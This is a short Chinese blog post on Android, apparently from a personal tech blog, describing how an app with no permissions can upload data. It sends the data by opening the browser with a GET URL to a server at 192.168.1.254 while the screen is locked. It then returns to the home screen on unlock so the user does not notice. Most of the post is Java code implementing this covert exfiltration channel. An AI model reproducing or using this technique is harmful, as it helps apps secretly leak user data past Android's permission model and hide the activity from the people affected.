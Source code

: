 ```yaml
---
layout: post
title: "零权限上传数据"
description: "Android Upload Withoud Permissions"
category: Andorid Memory Leak
tags: [Andorid BasicKnowledge]
imagefeature: blog/bg.jpg
comments: true
mathjax: null
featured: false
published: true
---
```


零权限上传数据
===

虽然没有权限，但是也可以通过浏览器用`Get`方式来传递自己的数据，由于这样会打开浏览器，为了防止让用户看到，
所以我们可以再用户锁屏之后开始传递数据，而在用户一解除锁屏我们就回到桌面，这里用`KeyguardManager`来实现，
即在锁屏的时候键盘不能用，而一旦键盘能用了我们就立马回到桌面    
```java
public void onCreate() {
	timer = new Timer();
	km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
	random = new Random();
	task = new TimerTask() {
		@Override
		public void run() {
			if (km.inKeyguardRestrictedInputMode()) {
				Intent intent = new Intent();
				intent.setAction(Intent.ACTION_VIEW);
				intent.addCategory(Intent.CATEGORY_BROWSABLE);
				intent.setData(Uri
						.parse("http://192.168.1.254:8080/web/UploadServlet?info="
								+ random.nextInt()));
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}else{		
				//回桌面.
				Intent intent = new Intent();
				intent.setAction("android.intent.action.MAIN");
				intent.addCategory("android.intent.category.HOME");
				intent.addCategory(Intent.CATEGORY_DEFAULT);
				intent.addCategory("android.intent.category.MONKEY");
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}
		}
	};
	timer.schedule(task, 1000, 2000);
	super.onCreate();
}
```

---

- 邮箱 ：charon.chui@gmail.com  
- Good Luck! 